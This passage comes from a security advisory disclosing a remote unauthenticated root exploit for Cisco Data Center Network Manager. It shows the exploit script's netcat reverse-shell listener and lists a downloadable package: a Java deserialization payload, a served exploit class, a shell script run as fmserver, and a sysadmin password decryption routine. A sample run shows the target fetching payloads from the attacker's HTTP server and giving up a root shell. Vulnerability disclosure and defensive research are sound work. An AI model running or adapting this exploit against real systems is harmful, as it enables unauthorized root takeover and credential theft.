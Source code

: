 ```bash
echo "Starting reverse shell listener on port 4446, Shelly is coming soon!"
echo ""
nc -lvknp 4446
```
> Snippet #4: `DCNMpwn.sh` exploit script

The [exploit package made available with this advisory](https://github.com/pedrib/PoC/tree/master/exploits/DCNMPwn) contains the following files:

* *DCNMPwn.sh*
    * Shell script which runs the exploit (shown in **Snippet #4**)
* *DCNMPwn*
    *  Directory containing the IntelliJ IDEA project that sends the AMF payload to the server, triggering the insecure Java object deserialization
* *ExploitTemplate.java*
    * Exploit class template that will be compiled and served
* *pwnedTemplate*
    * Template for `pwned` shell script (shown in **Snippet #3**) that will be executed in DCNM as the `fmserver` user
* *DNCMCrypto.java*
    * Source code for the `sysadmin` password decryption routine

**NOTE**: Both `DCNMCrypto.java` and the `DCNMPwn` project MUST be compiled with Java 8. 

A typical run of the exploit looks like this:

```
DCNMPwn > ./DCNMPwn.sh 10.9.8.205 10.9.8.1
Remote Unauthenticated root Exploit for Cisco Data Center Network Manager virtual appliance
  Tested on versions 11.5(1) and 11.5(2)
by Pedro Ribeiro (pedrib@gmail.com|@pedrib1337) from Agile Information Security

Starting classloader HTTP server on port 4445
Firing up request and sending to 10.9.8.205
Starting reverse shell listener on port 4446, Shelly is coming soon!

Listening on 0.0.0.0 4446
Serving HTTP on 0.0.0.0 port 4445 ...
10.9.8.205 - - [28/Jul/2021 14:08:36] "GET /Exploit.class HTTP/1.1" 200 -
10.9.8.205 - - [28/Jul/2021 14:08:36] "GET /pwned HTTP/1.1" 200 -
10.9.8.205 - - [28/Jul/2021 14:08:36] "GET /DCNMCrypto.class HTTP/1.1" 200 -
Connection received on 10.9.8.205 48332
bash: no job control in this shell
Finished!
[root@dcnm sysadmin]# id
id
uid=0(root) gid=0(root) groups=0(root)
[root@dcnm sysadmin]#
```

### Limitations
This exploit was only tested in the virtual appliance provided by Cisco. It is likely that Windows installations are also affected by [Vulnerability #1](#1-unsafe-flex-amf-java-object-deserialization), and that could be abused for remote code execution. However that will require a slight modification to the exploit, and a new privilege escalation method (unless the DCNM service runs as `SYSTEM`, which knowing Cisco is a real possibility).
